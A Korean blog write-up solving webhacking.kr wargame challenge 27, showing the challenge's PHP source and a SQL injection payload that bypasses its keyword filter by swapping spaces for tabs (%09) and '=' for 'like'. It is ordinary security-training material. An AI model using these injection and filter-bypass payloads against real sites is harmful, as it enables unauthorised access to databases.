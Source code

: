 ```yaml
---
title: "[webhacking.kr] 27번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "27번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 27번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/151708539-f682bb27-54cb-492b-9bc2-0c3cfb83f886.png)

## 문제 소스 코드
  ```php
  <?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
  ```

  
## 문제 풀이
  **필터링 되는 문자들**
  
  | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
  |:---:|:---:|:---:|:---:|:---:|:---:|:---:|
  | **#** | **select** | **(** | **%20** | **limit** | **=** | **0x** |


  **sql**
  ```sql
  select id from chall27 where id='guest' and no = ({});
  ```

  해당 문제를 풀기 위한 1차 injection 문을 작성하면 다음과 같다
  ```md
  4) or no = 2--  
  ```
  ```sql
  select id from chall27 where id='guest' and no = ( 4) or no = 2 -- ) 
  ```

  해당 injection문에서 필터링을 우회하기 위해서 다음과 같이 바꿔준다.
  1. %20 -> %09
  2. = -> like
  
  ```md
  4)%09or%09no%09like%092--%09
  ```

  클리어 

  ![image](https://user-images.githubusercontent.com/33647663/151709496-68871636-9f18-488f-bde6-f9f993b2e356.png)

  


